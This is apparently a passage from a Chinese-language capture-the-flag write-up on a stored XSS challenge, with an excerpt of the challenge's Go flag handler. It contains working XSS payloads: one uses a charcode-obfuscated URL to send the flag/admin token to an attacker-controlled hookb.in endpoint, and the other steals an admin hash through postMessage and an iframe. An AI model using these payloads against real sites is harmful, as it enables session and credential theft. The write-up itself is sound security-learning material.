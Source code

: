 ​	在前面我们已经获取了admin的Hash，现在我们只要需要简单的在Post数据项中加入adminHash便可绕过filter，实现Stored XSS。我们的目标时获取服务器中存储的FLAG，通过代码审计我们可以知道当我们Cookies中`Token = admin_token`时便可以获取FLAG，且FLAG就为`admin_token`，由于我们并不知道`admin_token`的值所以并不能通过更改本地的Cookies来实现对`/api/flag`接口的访问，但是我们可以让admin访问我们上传的恶意代码后将其token发送回我们控制的Web服务器中，下面是我们恶意脚本的构造，

```html
<script>
    fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103))
    .then(function(response) {
        var img = new Image();
        img.src = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 
        111, 107, 98, 46, 105, 110, 47, 75, 51, 120, 88, 101, 76, 74, 79, 111, 109, 
        72, 80, 77, 75, 56, 56, 77, 75, 86, 55, 63, 102, 108, 97, 103, 61) // 攻击者控制的Web服务器 e.g. http://localhost:8888?flag=
        + encodeURIComponent(response.text());
    })
</script>
```

`server.go flag` {217-228}

```go
func flag(w http.ResponseWriter, r *http.Request) {
	var cookie, err = r.Cookie("Token")
	res := Preview{Error: "", Data: "'"}
	if err == nil {
		if cookie.Value == CONFIG.admin_token {
			res.Data = template.HTML(CONFIG.admin_token) // 直接将FLAG渲染进HTML 我们只要获取document.body即可
		} else {
			res.Data = template.HTML("You are not admin.")
		}
	}
	previewTmpl.Execute(w, res)
}
```



#### Exploit

​	获取adminHash,

```html
<script>
    function exploit() {
        document.getElementById("iframe").contentWindow.postMessage("Hello","*")
    }

    window.addEventListener("message",(event)=>{
        var img = new Image();
        img.src = "https://hookb.in/NOP1yLbpQwSe8mNN8mR2?hash=" + encodeURIComponent(event.data.Hash);
    },false);
</script>
<iframe src="http://localhost:8080/demo" id="iframe" onload="exploit()"></iframe>
```
